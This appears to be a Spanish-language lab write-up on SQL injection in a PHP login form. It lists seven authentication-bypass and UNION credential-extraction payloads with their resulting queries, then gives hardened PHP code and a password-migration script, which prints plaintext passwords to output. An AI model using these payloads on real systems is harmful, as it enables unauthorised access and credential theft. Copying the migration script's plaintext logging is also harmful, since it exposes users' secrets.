







##  VULNERABILIDADES SQL INJECTION IDENTIFICADAS

### Vulnerabilidad Principal: Concatenación Directa en Consulta SQL

**Código vulnerable:**
```php
$query = "SELECT * FROM users WHERE name = '$username' AND passwd = '$password'";
```

**Problema:** Los valores de entrada se insertan directamente sin sanitización ni prepared statements.

---

###  EXPLOIT 1: Bypass de Autenticación con Comentarios

**Campo username:**
```
admin' --
```

**Campo password:**
```
(dejar vacío o cualquier texto)
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = 'admin' -- ' AND passwd = ''
```

**Explicación:**
- `'` cierra la cadena del username
- `--` comenta todo lo que viene después (incluyendo la verificación de password)
- Te autenticas como `admin` sin conocer la contraseña

**Resultado:**  **Login exitoso como admin**



---

###  EXPLOIT 2: Bypass con OR 1=1 (Siempre verdadero)

**Campo username:**
```
' OR '1'='1
```

**Campo password:**
```
' OR '1'='1
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = '' OR '1'='1' AND passwd = '' OR '1'='1'
```

**Explicación:**
- `'1'='1'` siempre es verdadero
- Retorna todos los registros de la tabla users
- Te autenticas con el primer usuario (admin)

**Resultado:**  **Login exitoso con primer usuario de la BD**



---

###  EXPLOIT 3: Bypass Solo en Username

**Campo username:**
```
admin'--
```
*(sin espacio después de admin)*

**Campo password:**
```
(cualquier cosa)
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = 'admin'--' AND passwd = 'xxx'
```

**Resultado:**  **Login exitoso como admin**



---

###  EXPLOIT 4: Bypass con OR en Username

**Campo username:**
```
' OR 1=1--
```

**Campo password:**
```
(cualquier cosa)
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = '' OR 1=1--' AND passwd = 'xxx'
```

**Explicación:**
- `1=1` siempre es verdadero
- Devuelve todos los usuarios
- `--` comenta el resto

**Resultado:**  **Login exitoso con todos los usuarios**



---

###  EXPLOIT 5: UNION-based Injection (Extracción de datos)

**Campo username:**
```
xxx' UNION SELECT 1, 'hacker', 'hacked123'--
```

**Campo password:**
```
hacked123
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = 'xxx' UNION SELECT 1, 'hacker', 'hacked123'--' AND passwd = 'hacked123'
```

**Explicación:**
- Primera parte (`name = 'xxx'`) no retorna nada
- `UNION` añade un registro falso con datos controlados
- Si la password coincide, autentica con el usuario falso

**Resultado:**  **Login exitoso con usuario inyectado**



---

###  EXPLOIT 6: Extraer Todos los Usuarios y Contraseñas

**Campo username:**
```
xxx' UNION SELECT id, name, passwd FROM users--
```

**Campo password:**
```
xxx
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = 'xxx' UNION SELECT id, name, passwd FROM users--' AND passwd = 'xxx'
```

**Resultado:**  **Extrae TODOS los usuarios y contraseñas**

Salida esperada:
```
ID: 1 - Usuario: admin - Contraseña: admin123
ID: 2 - Usuario: user - Contraseña: pass123
```



---

###  EXPLOIT 7: Condicional con LIKE

**Campo username:**
```
' OR name LIKE '%'--
```

**Campo password:**
```
(cualquier cosa)
```

**Consulta resultante:**
```sql
SELECT * FROM users WHERE name = '' OR name LIKE '%'--' AND passwd = 'xxx'
```

**Explicación:**
- `LIKE '%'` coincide con cualquier nombre
- Devuelve todos los usuarios

**Resultado:**  **Login exitoso con todos los usuarios**



---

##  TABLA RESUMEN DE PAYLOADS

| # | Username | Password | Efecto |
|---|----------|----------|--------|
| 1 | `admin' --` | (vacío) | Login como admin |
| 2 | `' OR '1'='1` | `' OR '1'='1` | Login con primer usuario |
| 3 | `' OR 1=1--` | (cualquier) | Login con primer usuario |
| 4 | `xxx' UNION SELECT 1,'hacker','pass'--` | `pass` | Login con usuario falso |
| 5 | `xxx' UNION SELECT id,name,passwd FROM users--` | `xxx` | Extraer todos los usuarios |
| 6 | `' OR name LIKE '%'--` | (cualquier) | Login con todos |
---

##  CÓDIGO SEGURO (MITIGACIÓN COMPLETA)
```php
<?php
// ========================================
// SISTEMA DE LOGIN SEGURO
// ========================================

session_start();

// 1. REGENERAR ID DE SESIÓN
if (!isset($_SESSION['initiated'])) {
    session_regenerate_id(true);
    $_SESSION['initiated'] = true;
}

// 2. GENERAR TOKEN CSRF
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// 3. RATE LIMITING (Protección contra fuerza bruta)
if (!isset($_SESSION['login_attempts'])) {
    $_SESSION['login_attempts'] = 0;
    $_SESSION['last_attempt_time'] = time();
}

$max_attempts = 5;
$lockout_time = 300; // 5 minutos

if ($_SESSION['login_attempts'] >= $max_attempts) {
    $time_passed = time() - $_SESSION['last_attempt_time'];
    if ($time_passed < $lockout_time) {
        $remaining = ceil(($lockout_time - $time_passed) / 60);
        die("Demasiados intentos fallidos. Espera $remaining minutos.");
    } else {
        $_SESSION['login_attempts'] = 0;
    }
}

// 4. CONEXIÓN SEGURA A LA BASE DE DATOS
try {
    $db = new PDO("sqlite:/var/www/html/data.db");
    
    // Configuración segura de PDO
    $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $db->setAttribute(PDO::ATTR_EMULATE_PREPARES, false); // Importante para seguridad
    $db->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_ASSOC);
    
} catch (PDOException $e) {
    // NO mostrar detalles del error al usuario
    error_log("Error de conexión BD: " . $e->getMessage());
    die("Error del sistema. Contacte al administrador.");
}

// 5. VERIFICAR SI YA ESTÁ AUTENTICADO
if (isset($_SESSION['user_id'])) {
    header("Location: dashboard.php");
    exit();
}

$error_message = "";

// 6. PROCESAR LOGIN
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    // 6.1 VERIFICAR TOKEN CSRF
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        error_log("Intento de CSRF desde IP: " . $_SERVER['REMOTE_ADDR']);
        die("Token CSRF inválido");
    }
    
    // 6.2 VALIDAR QUE LOS CAMPOS NO ESTÉN VACÍOS
    if (empty($_POST["username"]) || empty($_POST["password"])) {
        $error_message = "Usuario y contraseña son obligatorios";
        $_SESSION['login_attempts']++;
        $_SESSION['last_attempt_time'] = time();
    } else {
        
        // 6.3 SANITIZAR Y VALIDAR ENTRADA
        $username = trim($_POST["username"]);
        $password = $_POST["password"];
        
        // Validar longitud
        if (strlen($username) > 50 || strlen($password) > 100) {
            $error_message = "Credenciales inválidas";
            $_SESSION['login_attempts']++;
        } 
        // Validar caracteres permitidos en username (opcional pero recomendado)
        else if (!preg_match('/^[a-zA-Z0-9_-]+$/', $username)) {
            $error_message = "Usuario contiene caracteres no permitidos";
            $_SESSION['login_attempts']++;
        } 
        else {
            
            try {
                // ====================================================
                //  PREPARED STATEMENT (PREVIENE SQL INJECTION)
                // ====================================================
                
                $stmt = $db->prepare("SELECT id, name, passwd FROM users WHERE name = :username LIMIT 1");
                
                // Bind del parámetro con tipo específico
                $stmt->bindParam(':username', $username, PDO::PARAM_STR);
                
                // Ejecutar consulta preparada
                $stmt->execute();
                
                // Obtener resultado
                $user = $stmt->fetch();
                
                // 6.4 VERIFICAR USUARIO Y CONTRASEÑA
                if ($user) {
                    
                    // ====================================================
                    //  PASSWORD HASHING (BCrypt/Argon2)
                    // ====================================================
                    
                    // Verificar contraseña hasheada
                    if (password_verify($password, $user['passwd'])) {
                        
                        //  LOGIN EXITOSO
                        
                        // Regenerar ID de sesión (previene session fixation)
                        session_regenerate_id(true);
                        
                        // Establecer variables de sesión
                        $_SESSION['user_id'] = $user['id'];
                        $_SESSION['username'] = $user['name'];
                        $_SESSION['login_time'] = time();
                        $_SESSION['ip_address'] = $_SERVER['REMOTE_ADDR'];
                        $_SESSION['user_agent'] = $_SERVER['HTTP_USER_AGENT'];
                        
                        // Reset intentos fallidos
                        $_SESSION['login_attempts'] = 0;
                        
                        // Log de éxito (auditoría)
                        error_log("Login exitoso: " . $user['name'] . " desde IP " . $_SERVER['REMOTE_ADDR']);
                        
                        // Redireccionar
                        header("Location: dashboard.php");
                        exit();
                        
                    } else {
                        // Contraseña incorrecta
                        $error_message = "Usuario o contraseña incorrectos";
                        $_SESSION['login_attempts']++;
                        $_SESSION['last_attempt_time'] = time();
                        
                        // Log de intento fallido
                        error_log("Login fallido (password): " . $username . " desde IP " . $_SERVER['REMOTE_ADDR']);
                    }
                    
                } else {
                    // Usuario no existe
                    //  IMPORTANTE: Mismo mensaje genérico (no revelar si usuario existe)
                    $error_message = "Usuario o contraseña incorrectos";
                    $_SESSION['login_attempts']++;
                    $_SESSION['last_attempt_time'] = time();
                    
                    // Log de intento fallido
                    error_log("Login fallido (user): " . $username . " desde IP " . $_SERVER['REMOTE_ADDR']);
                }
                
                // Delay progresivo (dificulta ataques automatizados)
                if ($_SESSION['login_attempts'] > 0) {
                    sleep(min($_SESSION['login_attempts'], 5));
                }
                
            } catch (PDOException $e) {
                // Error en la consulta (NO mostrar al usuario)
                error_log("Error en login query: " . $e->getMessage());
                $error_message = "Error del sistema. Intente más tarde.";
            }
        }
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Seguro</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }
        
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        
        .login-container {
            background: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 10px 25px rgba(0,0,0,0.2);
            width: 100%;
            max-width: 400px;
        }
        
        h2 {
            text-align: center;
            color: #333;
            margin-bottom: 30px;
        }
        
        .error {
            background-color: #ffebee;
            color: #c62828;
            padding: 12px;
            border-radius: 5px;
            margin-bottom: 20px;
            border-left: 4px solid #c62828;
        }
        
        .form-group {
            margin-bottom: 20px;
        }
        
        label {
            display: block;
            margin-bottom: 5px;
            color: #555;
            font-weight: 500;
        }
        
        input[type="text"],
        input[type="password"] {
            width: 100%;
            padding: 12px;
            border: 2px solid #ddd;
            border-radius: 5px;
            font-size: 14px;
            transition: border-color 0.3s;
        }
        
        input[type="text"]:focus,
        input[type="password"]:focus {
            outline: none;
            border-color: #667eea;
        }
        
        button {
            width: 100%;
            padding: 12px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
            border: none;
            border-radius: 5px;
            font-size: 16px;
            font-weight: 600;
            cursor: pointer;
            transition: transform 0.2s;
        }
        
        button:hover {
            transform: translateY(-2px);
        }
        
        button:active {
            transform: translateY(0);
        }
        
        .attempts-warning {
            background-color: #fff3e0;
            color: #e65100;
            padding: 10px;
            border-radius: 5px;
            margin-top: 15px;
            text-align: center;
            font-size: 14px;
        }
        
        .security-badge {
            text-align: center;
            margin-top: 20px;
            color: #888;
            font-size: 12px;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <h2> Inicio de Sesión Seguro</h2>
        
        <?php if (!empty($error_message)): ?>
            <div class="error">
                 <?php echo htmlspecialchars($error_message, ENT_QUOTES, 'UTF-8'); ?>
            </div>
        <?php endif; ?>
        
        <form method="post" action="" autocomplete="on">
            <!-- TOKEN CSRF (Oculto) -->
            <input type="hidden" name="csrf_token" value="<?php echo htmlspecialchars($_SESSION['csrf_token'], ENT_QUOTES, 'UTF-8'); ?>">
            
            <div class="form-group">
                <label for="username">Usuario</label>
                <input 
                    type="text" 
                    id="username"
                    name="username" 
                    required 
                    maxlength="50"
                    pattern="[a-zA-Z0-9_-]+"
                    title="Solo letras, números, guiones y guiones bajos"
                    autocomplete="username">
            </div>
            
            <div class="form-group">
                <label for="password">Contraseña</label>
                <input 
                    type="password" 
                    id="password"
                    name="password" 
                    required 
                    maxlength="100"
                    autocomplete="current-password">
            </div>
            
            <button type="submit">Iniciar Sesión</button>
        </form>
        
        <?php if ($_SESSION['login_attempts'] > 0): ?>
            <div class="attempts-warning">
                 Intentos fallidos: <?php echo intval($_SESSION['login_attempts']); ?> / <?php echo intval($max_attempts); ?>
            </div>
        <?php endif; ?>
        
        <div class="security-badge">
             Conexión segura protegida
        </div>
    </div>
</body>
</html>
```

---

## 🔧 SCRIPT PARA MIGRAR CONTRASEÑAS A HASH

**Archivo:** `migrate_passwords.php`
```php
<?php
// ========================================
// SCRIPT DE MIGRACIÓN DE CONTRASEÑAS
// Ejecutar UNA SOLA VEZ para hashear contraseñas existentes
// ========================================

$db = new PDO("sqlite:/var/www/html/data.db");
$db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

echo "Iniciando migración de contraseñas...\n\n";

try {
    // Obtener todos los usuarios
    $users = $db->query("SELECT id, name, passwd FROM users")->fetchAll(PDO::FETCH_ASSOC);
    
    foreach ($users as $user) {
        // Verificar si ya está hasheada (bcrypt empieza con $2y$)
        if (substr($user['passwd'], 0, 4) === '$2y$') {
            echo "✓ Usuario '{$user['name']}' ya tiene contraseña hasheada\n";
            continue;
        }
        
        // Crear hash de la contraseña actual
        $hashed_password = password_hash($user['passwd'], PASSWORD_BCRYPT, ['cost' => 12]);
        
        // Actualizar en la base de datos usando prepared statement
        $stmt = $db->prepare("UPDATE users SET passwd = :passwd WHERE id = :id");
        $stmt->execute([
            ':passwd' => $hashed_password,
            ':id' => $user['id']
        ]);
        
        echo "✓ Migrado usuario: {$user['name']}\n";
        echo "  Contraseña original: {$user['passwd']}\n";
        echo "  Hash generado: $hashed_password\n\n";
    }
    
    echo "\n Migración completada exitosamente\n";
    echo "IMPORTANTE: Guarda las contraseñas originales en un lugar seguro antes de borrar este script\n";
    
} catch (PDOException $e) {
    echo " Error en la migración: " . $e->getMessage() . "\n";
}
?>
```

**Ejecutar:**
```bash
php migrate_passwords.php
```

---

### PAYLOADS MÁS EFECTIVOS:
- `admin' --` → Bypass inmediato
- `' OR 1=1--` → Login con primer usuario
- `xxx' UNION SELECT id,name,passwd FROM users--` → Extraer todas las credenciales

### MITIGACIÓN:
 **Prepared Statements** (soluciona SQL Injection 100%)  
 **Password Hashing** (protege contraseñas)  
 **Rate Limiting** (previene fuerza bruta)  
 **CSRF Tokens** (previene CSRF)  
 **Session Management** (autenticación segura)  